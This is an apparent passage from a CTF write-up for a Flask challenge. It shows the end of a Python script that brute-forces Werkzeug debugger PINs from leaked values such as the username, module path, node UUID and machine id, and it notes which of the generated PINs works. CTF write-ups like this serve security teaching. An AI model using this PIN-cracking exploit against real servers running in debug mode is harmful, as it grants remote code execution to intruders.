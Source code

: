 ```java
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':

    usernames = ['ctf']
    modnames = ['flask.app', 'werkzeug.debug']
    appnames = ['wsgi_app', 'DebuggedApplication', 'Flask']
    flaskpaths = ['/usr/local/lib/python3.9/site-packages/flask/app.py']
    nodeuuids = ['2485378416642']
    machineids = ['4a5bc48c-6dd5-46d9-8096-ee57bf375bc4']

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')
```

- it will return list of pins , third one will work

![image.png](./Aswan%20CTF%20Web%20Writeups/Hambozo/image%208.png)
